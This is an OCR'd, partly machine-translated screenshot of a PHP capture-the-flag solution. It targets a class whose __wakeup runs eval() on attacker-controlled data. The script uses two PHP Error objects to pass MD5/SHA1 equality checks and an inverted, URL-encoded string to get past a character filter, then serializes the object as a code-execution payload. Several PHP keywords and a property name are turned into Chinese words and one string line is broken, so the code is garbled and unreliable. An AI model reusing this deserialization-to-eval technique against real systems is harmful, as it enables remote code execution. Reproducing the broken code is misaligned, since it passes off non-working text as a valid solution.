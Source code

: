     16   
    17   
    18   
    19   
    20   
    21   
    22   
    23   
    24   
    25   
    26   
    27   
    28   
    29   
    30   
    31  
    

|

    
    
      
      
    类 SYCLOVER  {公共$syc；公共$lover ; 公共函数__wakeup (  
    	   
    	   
    	  ) { if ( ( $this ->syc != $this ->lover) && (md5( $this ->syc) === md5( $this ->lover)) && (sha1( $this ->syc) === sha1( $this ->lover)) ){ if (!preg_match( "/\<\?php|\(|\)|\"|\'/" , $this ->syc, $match ) ){ eval ( $this ->syc); 		   } else { die ( "Try Hard !!" ); 		   } 		} 	} }  
    		  
    		     
    			     
      
    			     
      
    		     
      
      
      
      
    $str = "?> .urldecode( "%D0%99%93%9E%98" )。"?>" ;   
    /*  
    或使用[~(取反)][!%FF]的形式，  
    即： $str = "?>";      
      
    $str = "?>";   
    */   
    $a =新 错误( $str , 1 ); $b =新 错误( $str , 2 );   
    $c =新SYCLOVER();   
    $c ->syc = $a ;   
    $c -> 情人 = $b ;   
    回声（urlencode（序列化（$c）））；  
      
    ?>  
      
  
---|---  
  
`  
`
